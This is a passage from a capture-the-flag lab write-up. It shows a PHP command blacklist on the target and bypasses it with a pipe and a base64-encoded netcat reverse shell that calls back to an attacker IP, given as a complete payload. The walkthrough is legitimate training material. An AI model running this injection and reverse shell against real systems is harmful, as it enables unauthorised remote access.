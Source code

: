 ```php
$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
```

It has an array of blacklisted strings that blocking us from using: `;`, `&&`, `/`, `bin`, `&`, ` &&`, `ls`, `nc`, `dir`, `pwd`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/NoName/images/a19.png)

Since the target machine also has `base64` installed, why not base64 **encode** our reverse shell, and then base64 **decode** it in the target machine? I also notice the **pipe** (`|`) can also bypass the filter, as it's not in the blacklist.

1. Base64 encode the `nc` reverse shell: (From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/NoName/images/a20.png)

**Complete payload:**
```bash
|echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC40OS4xMjkgNDQzID4vdG1wL2YK" | base64 -d | bash
```

2. URL encode our payload: (https://www.urlencoder.org/)
